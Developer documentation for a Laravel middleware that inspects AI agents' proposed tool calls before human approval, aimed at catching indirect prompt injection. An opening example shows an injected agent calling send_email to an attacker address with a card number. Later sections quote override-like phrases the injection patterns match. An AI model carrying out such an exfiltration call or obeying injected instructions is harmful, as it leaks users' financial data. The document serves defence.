

`ToolApprovalGuard` inspects the tool calls an agent proposes while pausing for human approval, before those calls are ever surfaced for review.

It can block, log, or fully delegate handling to a custom callback.

## Why this middleware exists

Every other Intercept middleware inspects what goes _out_: the prompt, and the text a human supplies when resolving a paused run.

None of them see what comes _back in_. Tool results, retrieved documents, and conversation history never pass through the middleware pipeline, which is exactly where indirect prompt injection lives.

When content that Intercept never saw manipulates an agent, the damage almost always surfaces as a tool call:

```text
send_email(to: "attacker@example.com", body: "card 4111111111111111")
```

`ToolApprovalGuard` inspects those proposed calls. It is the first point downstream of that blind spot where the middleware pipeline can still act.

By default it is the **card number** that flags this call, not the address. A mail tool is expected to carry an email address. See [secret-like data](#secret-like-data) for why the defaults are drawn that way.

<Tip>
    This middleware only acts when a run pauses for approval. Agents whose tools
    are not approval-gated are unaffected, so adding it is safe even before you
    adopt human-in-the-loop.
</Tip>

## Installation

```bash
composer require promptphp/intercept-tool-approval-guard
```

The package depends on the [PII Redactor](/middleware/pii-redactor) and the [Injection Guard](/middleware/injection-guard) packages, because it reuses their detectors and patterns.

## Basic usage

```php
use Laravel\Ai\Contracts\Agent;
use Laravel\Ai\Contracts\HasMiddleware;
use PromptPHP\Intercept\ToolApprovalGuard\ToolApprovalGuard;

class SupportAgent implements Agent, HasMiddleware
{
    public function instructions(): string
    {
        return 'You help customers with support tickets.';
    }

    public function middleware(): array
    {
        return [
            new ToolApprovalGuard,
        ];
    }
}
```

## How it differs from the other middleware

This is the first Intercept middleware that acts on the **response** rather than the prompt, because the model proposes the tool calls it guards.


```mermaid placement="top-right"
   flowchart LR
      A[Agent] --> B[Intercept middleware]
      B --> C[AI provider]
      C --> D[Proposed tool calls]
      D --> E[Tool Approval Guard]
      E --> F[Human review]
```

## What it checks

Three checks run over every proposed tool call.

### Tool policy

An empty `allowed_tools` list permits every tool. A non-empty list permits only the tools named in it. Anything in `denied_tools` is always refused.

```php
new ToolApprovalGuard(
    deniedTools: ['delete_record', 'transfer_funds'],
)
```

### Secret-like data

The middleware runs the same detectors as [PII Redactor](/middleware/pii-redactor), including the Luhn check on card numbers. By default it scans for **only three entities**: `credit_card`, `api_key` and `bearer_token`.

Entities listed in `block_entities` stop the run regardless of the configured action, matching PII Redactor's behaviour.

<Warning>
    The default entity list is deliberately narrower than PII Redactor's, and you
    should think carefully before widening it. In a prompt, an email address is
    user data worth redacting. In a proposed tool argument it is usually the
    function signature: `send_email(to: ...)` cannot work without one.

    Exfiltration is about **destination**, not presence, and the destination
    cannot be judged from the value alone. Adding `email`, `phone`, `url`,
    `ip_address` or `mac_address` will flag legitimate calls made by any agent
    that owns a mail, SMS or HTTP tool.

    To control *where* a tool may send data, use `allowed_tools` /
    `denied_tools` and domain allowlisting inside the tool itself.
</Warning>

### Prompt injection patterns

A proposed argument that matches an injection pattern suggests that content the middleware never saw manipulated the model. It uses the same patterns as [Injection Guard](/middleware/injection-guard).

**This scan is off by default.** Prose a model writes for a human reader routinely contains phrases the patterns match, such as "You are now subscribed to weekly updates.", "From now on we will email you every Monday.", "System: scheduled maintenance at 3pm." None of those indicate manipulation in that context.

Enable it when a proposed argument feeds **another model or agent** rather than a person:

```php
new ToolApprovalGuard(
    scanInjection: true,
    action: 'log',      // see what real traffic produces first
)
```

You can turn off either scan:

```php
new ToolApprovalGuard(
    scanPii: false,
    scanInjection: false,
)
```

## Supported actions

| Action  | Behaviour                                                        |
| ------- | ---------------------------------------------------------------- |
| `block` | Throws before the approval is surfaced for review.               |
| `log`   | Logs the finding and lets the pending approval reach the caller. |

There is deliberately no mutating action. A proposed tool call is part of the paused turn the provider recorded, so rewriting it would desynchronise the run when you resume it. The same constraint applies to resumed prompts.

<Warning>
    `action: 'log'` on its own is **not** observe-only here. Every entity in the
    default list is also in `block_entities`, and blocked entities stop the run
    whatever the action is set to. With the shipped defaults, `log` and `block`
    behave identically for data findings, differing only for denied tools.

    For a genuinely observe-only rollout, clear `block_entities` as well:

    ```php
    new ToolApprovalGuard(action: 'log', blockEntities: [])
    ```

    Review what real traffic produces, then restore `block_entities` and move to
    `block`.
</Warning>

## When it runs

The Laravel AI SDK runs agent middleware once for each generation step. This middleware inspects each step when the step resolves. That is before the SDK turns the gated tool calls into pending approvals.

It inspects two kinds of proposal:

- tool calls to a local tool whose approval rule asks for approval
- approvals that the provider reports itself

The middleware does not inspect a tool call that runs without approval.

## Streaming

On a streamed run, `block` works as it does on a synchronous run. The exception stops the stream before the approval request event, so the client never receives the approval request and no tool runs.

The text and tool call events of that step reach the client before the exception. Handle the exception in your stream consumer.

## Blocked runs

The exception names the offending tool call and field, but never the matched value:

```text
Unsafe tool call proposed for approval [call_7: send_email.arguments.to].
```

Catch it like any other Intercept exception. See [handling blocked prompts](/guides/handling-blocked-prompts).

```php
use PromptPHP\Intercept\Support\Exceptions\InterceptException;

try {
    $response = $agent->prompt($message);
} catch (InterceptException $e) {
    return back()->withErrors('That request could not be completed.');
}
```

## Reading the logs

The middleware logs findings with a `source` of `pending_approvals`:

```php
[
    'agent'         => SupportAgent::class,
    'provider'      => 'openai',
    'model'         => 'gpt-5',
    'step'          => 0,
    'invocation_id' => '0199...',
    'source'        => 'pending_approvals',
    'findings'      => [
        [
            'tool_call_id' => 'call_1',
            'tool'         => 'send_email',
            'type'         => 'pii',
            'field'        => 'arguments.message.body',
            'detail'       => 'email',
            'value_hash'   => '9f86d0818...',
        ],
    ],
]
```

The middleware always records matched values as SHA-256 hashes. Set `log_preview` to `true` to add a short cleartext preview. The preview is off by default because proposed arguments can carry sensitive data.

The `type` is one of `denied_tool`, `pii`, or `injection`. The `detail` carries the entity type or the matched pattern.

## Custom callback handling

A callback receives the step, the step response, and the findings, and fully replaces the configured action. The return value is ignored, so throw to stop the run:

```php
use Laravel\Ai\Gateway\StepResponse;
use Laravel\Ai\PendingStep;

new ToolApprovalGuard(
    callback: function (PendingStep $step, StepResponse $response, array $findings): void {
        foreach ($findings as $finding) {
            SecurityAlert::dispatch($finding->reference(), $finding->type->value);
        }
    },
)
```

Each finding is an `ApprovalFinding` exposing `toolCallId`, `tool`, `type`, `field`, `detail`, and `value`. Use `reference()` for a string that names the location without leaking the matched value.

## Configuration

You can set all options globally in `config/intercept.php` under `tool_approval_guard`, or per agent through the constructor. Constructor values always win.

```php
'tool_approval_guard' => [
    'action'         => 'block',
    'allowed_tools'  => [],
    'denied_tools'   => [],
    'scan_pii'       => true,
    'scan_injection' => false,
    'entities'       => ['credit_card', 'api_key', 'bearer_token'],
    'block_entities' => ['credit_card', 'api_key', 'bearer_token'],
    'log_preview'    => false,
],
```

See the [configuration guide](/configuration) for the full option list.

## Limitations

This middleware inspects the tool calls the model proposed. It does not inspect the tool results, retrieved documents, or conversation history that may have influenced them. Those never reach the middleware pipeline.

It also does not validate arguments against the tool's schema, or re-scope owner keys such as `user_id` server-side. Do that in your own tool implementations.

The middleware calls `shouldRequestApproval()` on each gated tool, and the SDK calls it again. Keep that method free of side effects.

Read the [security notes](/guides/security-notes) for the full picture of what Intercept can and cannot see.
